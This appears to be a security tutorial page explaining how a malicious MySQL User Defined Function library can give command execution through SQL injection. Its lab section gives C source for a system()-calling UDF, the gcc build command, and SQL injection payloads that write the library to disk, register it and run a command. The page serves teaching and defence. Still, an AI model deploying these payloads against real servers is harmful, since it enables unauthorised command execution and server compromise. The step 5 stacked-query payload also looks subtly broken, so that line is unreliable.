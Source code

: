 ```yaml
---
title: Execute Commands via MySQL UDF Library
description: Learn to exploit MySQL User Defined Functions for command execution in a vulnerable environment.
keywords:
- MySQL
- UDF Library
- command execution
- user defined functions
- security vulnerability
- sys_exec
- malicious UDF
- SQL injection
- FILE privilege
- secure_file_priv
---
```


# COMMAND - UDF Library

## Context

This article explores executing commands on a MySQL server using User Defined Functions (UDF) libraries in a controlled lab environment. The objective is to understand how attackers can exploit misconfigured servers to execute arbitrary commands. Assumes knowledge of SQL injection, UDFs, and command execution techniques.

## Theory

### User Defined Functions (UDF) in MySQL

User Defined Functions (UDFs) are custom functions added to MySQL to extend functionality, implemented as shared libraries linked to the server. Typically used for complex calculations, UDFs can execute system commands if the server lacks proper security (e.g., excessive permissions or file access).

### Vulnerability Model

The risk arises when attackers exploit weak access controls to upload malicious UDF libraries and execute them. This requires specific MySQL privileges (e.g., FILE and CREATE FUNCTION) and write access to server directories, often enabled in poorly secured setups or via chained vulnerabilities like Local File Inclusion (LFI).

### Prerequisites for UDF Exploitation

For successful UDF exploitation, several conditions must be met:
- **FILE privilege**: Required to read/write files on the server
- **CREATE FUNCTION privilege**: Needed to register new UDFs
- **Writable directory**: MySQL must have write access to a directory where it can load shared objects
- **secure_file_priv configuration**: Must allow file operations to the target directory
- **SQL injection vulnerability**: To deliver the payload and execute commands

### Command Execution via UDF

To execute commands, an attacker:
1. Creates a malicious UDF library (e.g., with system() calls)
2. Uploads it to a server directory MySQL can access via SQL injection
3. Registers the UDF and invokes it to run commands

## Practice

### Command Execution via UDF Library

This lab demonstrates command execution via UDF in a vulnerable MySQL setup (e.g., Dockerized app with FILE privilege and writable plugin directory). Note: For ethical lab use only; unauthorized access is illegal.

- **Step 1: Write a C program for the malicious UDF (udf.c):**

  ```c
  #include <stdlib.h>

  int sys_exec(const char *command) {
      return system(command);
  }
  ```

- **Step 2: Compile it into a shared object file:**

  ```bash
  gcc -shared -o libudf.so -fPIC udf.c
  ```

- **Step 3: Check MySQL configuration and privileges:**

  ```sql
  SELECT @@secure_file_priv;
  SHOW GRANTS FOR CURRENT_USER();
  ```

- **Step 4: Exploit a vulnerability (e.g., SQL injection with FILE privilege) to write the compiled libudf.so to a MySQL-accessible directory. Example payload for a vulnerable endpoint (`/search.php?q=[INJECT]`) with FILE privilege:**

  ```sql
  1' UNION SELECT 0x[hex-encoded-libudf.so] INTO OUTFILE '/tmp/libudf.so' --
  ```

- **Step 5: Create the UDF function, assuming CREATE FUNCTION privilege (often requires compromised admin credentials):**

  ```sql
  1' UNION SELECT 1; CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'libudf.so' --
  ```

- **Step 6: Execute a system command via the UDF, using SQL injection:**

  ```sql
  1' UNION SELECT sys_exec('id') --
  ```

#### Result

If successful, the UDF executes system commands (e.g., `id` returns user details) on the server. This highlights risks of excessive MySQL privileges and poor file access controls, enabling data manipulation or backdoors.

## Tools

- **gcc**: Compiler for creating shared object files from C code
- **sqlmap**: Automates SQL injection to exploit FILE privileges and deliver payloads
- **Burp Suite**: Manual testing for crafting and injecting payloads
- **hexdump**: Convert binary files to hexadecimal for SQL injection payloads
